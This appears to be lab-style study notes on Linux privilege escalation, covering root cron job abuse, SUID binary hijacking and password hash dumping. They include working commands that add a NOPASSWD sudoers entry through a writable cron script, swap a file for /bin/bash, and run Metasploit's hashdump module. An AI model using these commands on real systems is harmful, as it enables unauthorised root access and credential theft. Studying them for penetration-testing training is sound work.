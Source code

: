 #### Cron Jobs

> We will be targeting Cron Jobs that have been created by the `root` user in order to escalate our privileges.

```Shell
crontab -l
```

> The command to display the list of scheduled cron jobs for the current user is

```Shell
grep -nri “/tmp/message” /usr
```

> The command is used to search for the string `"/tmp/message"` within files located under the `/usr` directory.

```Shell
printf '#! /bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh
```

> Exploiting the cron jobs misconfiguration.

#### Exploiting SUID Binaries:

***SET OWNER USER ID***

```Shell
| -rwsr-xr-x | 1 | root  |  8344 | Sep 222  |  2018 | welcome
```

> Now here the `s` in the permissions section is the `SUID` permission. So that means it is being executed by the root privileges. 

```Shell
rm <file-name>
cp /bin/bash <file-name>
```

> Now if we remove a file that is being run by the welcome file as shown above and make a file with the same name but with the components of `/bin/bash`. Then upon executing the `welcome` file we will get the root privileges.

#### Dumping Linux Passwords Hashes:

```console
/etc/shadow
```

> This file has all the hashes for the user that are using that particular machine and this can only be accessed by a root user or a user with privileged access.

```console
root:$6$gvewkfv7o7i32ugbc328pgibcewuhjbh:45678:0:999999:7:::
```

> This is an exemplary hash 

```msfconsole
use post/linux/hashdump
show options 
set SESSION <session-ID>
run
```
